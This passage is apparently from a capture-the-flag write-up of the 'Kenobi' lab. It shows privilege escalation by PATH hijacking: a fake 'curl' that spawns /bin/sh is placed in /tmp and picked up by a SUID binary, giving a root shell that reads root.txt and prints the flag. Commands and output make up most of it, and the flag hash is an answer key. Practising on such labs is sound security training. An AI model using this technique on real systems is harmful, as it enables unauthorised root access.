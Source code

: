 Potentially this binary is running the corresponding command (as root) when we press 1,2 or 3

The commands are not using the full path to run eg(/usr/bin/curl), instead is calls curl directly. This is potentially a security vulnerability as we can make the /usr/bin/menu binary execute something completely different by changing the $PATH variable.

Our goal is to spawn a shell as root, so we first echo the command /bin/sh (path to shell) to a file called curl, then set the file to be executable. 

```console
kenobi@kenobi:/tmp$ echo /bin/sh > curl
kenobi@kenobi:/tmp$ chmod 777 curl
```

Next we edit the $PATH variable to search the tmp folder first for any executables by adding it to the front of the $PATH variable

```console
kenobi@kenobi:/tmp$ echo $PATH
/home/kenobi/bin:/home/kenobi/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
kenobi@kenobi:/tmp$ echo $PATH
/tmp:/home/kenobi/bin:/home/kenobi/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

now when we run curl, it spawns a shell rather than running the actual curl command

```console
kenobi@kenobi:/tmp$ curl
$ 
```
We now run the binary /usr/bin/menu then choose option 1 to make it run our fake curl cmd

This shell has root permissions because it was spawned by /usr/bin/menu, which had the SUID bit set. 

cat out the root.txt file to get the answer.

```console
kenobi@kenobi:/tmp$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
# cat /root/root.txt
177b3cd8562289f37382721c28381f02
```

ans: 177b3cd8562289f37382721c28381f02

